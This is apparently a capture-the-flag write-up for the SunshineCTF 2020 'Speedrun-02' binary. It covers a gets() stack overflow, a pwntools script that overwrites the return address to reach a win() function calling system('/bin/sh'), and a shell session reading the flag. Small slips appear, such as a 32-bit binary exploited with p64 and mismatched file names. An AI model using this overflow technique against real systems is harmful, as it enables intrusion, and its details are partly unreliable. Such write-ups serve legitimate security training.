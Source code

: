# **Speedrun-02**
## Task
nc chal.2020.sunshinectf.org 30002
File: chall_00
Tag: binary exploitation

## Solution

### Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)

```
* No canary assume BOF
* No PIE assume ROP
* System 32 bit
  
### Decompile with ghidra
```c
void vuln(void)

{
  char local_3e [54];
  
  __x86.get_pc_thunk.ax();
  gets(local_3e);
  return;
}

void win(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0x12e));
  return;
}
```
Our destination is call for `win` to get flag. So just overwrite the return address in `vuln`.
With the Decompile code, `local_3e` is `0x3e` from the return address so just overwrite the 0x3e bytes of gadbages followed by the `win` address

Actually in the `win`, `iVar1 = __x86.get_pc_thunk.ax();` then iVar1 = address of next instruction = `0x080484e2` then `ivar1 + 0x12e` equal to `0x8048610` -> value of `/bin/sh'
Finally, `win` call for `system("/bin/sh")`
```
        080484dd e8  a0  00       CALL       __x86.get_pc_thunk.ax                            undefined __x86.get_pc_thunk.ax()
                 00  00
        080484e2 05  1e  1b       ADD        EAX ,0x1b1e
                 00  00
```
```
        08048610 2f              ??         2Fh    /
        08048611 62              ??         62h    b
        08048612 69              ??         69h    i
        08048613 6e              ??         6Eh    n
        08048614 2f              ??         2Fh    /
        08048615 73              ??         73h    s
        08048616 68              ??         68h    h
        08048617 00              ??         00h

```

### Exploit
```python
from pwn import *
binary = context.binary = ELF('./chall_02')

payload = b'a'* (0x3e)
payload += p64(binary.sym.win)
p = remote('chal.2020.sunshinectf.org', 30002)
p.sendline('lol')
p.sendline(payload)
p.interactive()
```

### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_02'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30002: Done
[*] Switching to interactive mode
Went along the mountain side.
$ ls
chall_02
flag.txt
$ cat flag.txt
sun{warmness-on-the-soul-3b6aad1d8bb54732}
```